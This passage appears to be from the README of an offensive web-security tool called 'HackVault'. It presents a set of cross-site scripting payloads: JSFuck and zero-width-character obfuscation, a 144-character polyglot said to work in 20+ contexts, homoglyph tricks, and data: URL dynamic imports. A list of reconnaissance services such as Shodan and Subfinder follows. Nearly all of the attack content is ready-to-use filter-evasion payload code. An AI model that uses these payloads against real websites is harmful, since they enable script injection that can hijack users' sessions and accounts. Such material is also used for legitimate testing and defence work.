 ### 🔮 **JSFuck + Unicode Chaos** - Ultra Obfuscation

```javascript
// Pure JSFuck with zero-width chaos
[]\u200b[(![]+[])[+[]]]\u200c+([![]]+[][[]])[+!+[]+[+[]]]\u200d+(![]+[])[!+[]+!+[]]\u200e+(!![]+[])[+[]]()

// Unicode steganography
<img src=x onerror=alert\u200b\u200c\u200d\ufeff(1)>
```

### 🎯 **HackVault Ultimate Polyglot** - 144-char Universal

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()///>\\x3e
```

*Works in 20+ different contexts!*

### 🏺 **Unicode Exploitation** - Ancient & Modern

```javascript
// Cuneiform script XSS
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒌐=𒉺[𒀀++]

// RTL confusion + homoglyphs  
аⅼеrt(1) // Contains Cyrillic 'а' + math italic 'ℓ'

// Zero-width steganography
ale‌rt(1)  // Contains ZWNJ U+200C
```

### ⚡ **Modern JavaScript** - async/await & Modules

```javascript
// Async trick XSS
(async()=>{await import('data:text/javascript,alert(1)')})()

// Constructor chain
constructor[constructor](alert(1))()

// Dynamic import exploitation  
import('data:text/javascript,alert(document.domain)')
```

## 📊 **Service Monitoring**

Real-time monitoring of 11+ external services:

- ✅ **Wayback Machine** - Historical URL discovery
- ✅ **GAU** - GetAllUrls service
- ✅ **Subfinder** - Subdomain enumeration  
- ✅ **AlienVault OTX** - Threat intelligence
- ✅ **URLScan.io** - URL analysis service
- ✅ **Virustotal** - File and URL scanning
- ✅ **Shodan** - Internet-connected device search
- ✅ **SecurityTrails** - DNS intelligence
- ✅ **Rapid7** - Forward DNS dataset
